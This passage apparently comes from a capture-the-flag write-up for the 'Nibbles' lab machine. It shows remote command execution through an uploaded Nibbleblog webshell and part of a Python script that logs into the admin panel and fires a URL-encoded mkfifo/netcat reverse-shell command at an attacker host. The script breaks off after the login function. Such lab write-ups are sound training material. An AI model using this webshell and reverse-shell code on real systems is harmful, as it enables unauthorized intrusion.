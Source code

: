 And we achieved RCE as nibbler via webshell.

```
http://10.129.13.177/nibbleblog/content/private/plugins/my_image/image.php?fc8358bcf09e4b3947d1975622a9df14=whoami
```

<img src="/assets/img/nibbles/Untitled 12.png" alt="Untitled 12.png" style="width:800px;">

I created this Python script that automates the process of logging in, uploading a webshell and sending us a reverse shell. I'm kinda new to Python scripting so watching how this worked was a great feeling ngl.

```python
import argparse
import requests
import sys

def rev_shell(target, lhost, lport):
    try:
        command = f'rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20{lhost}%20{lport}%20%3E%2Ftmp%2Ff'
        url = f'http://{target}/nibbleblog/content/private/plugins/my_image/image.php?fc8358bcf09e4b3947d1975622a9df14={command}'

        requests.get(url, timeout=3)

    except requests.Timeout:
        print("\n[+] Check your Netcat listener! :)")

def login(target, user, password):
    url = f'http://{target}/nibbleblog/admin.php'
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    url = f'http://{target}/nibbleblog/admin.php'
    data = f'username={user}&password={password}'
    
    # create session
    s = requests.session()
    res = s.get(url)
    cookie = res.headers['set-cookie'].split(';')[0]
    print(f"\n[+] Cookie: {cookie}")

    # login
    response = s.post(url, headers=headers, data=data, allow_redirects=False)

    if response.status_code == 302:
        print(f"\n[+] Successfully logged in as {user}")
        return s
    
```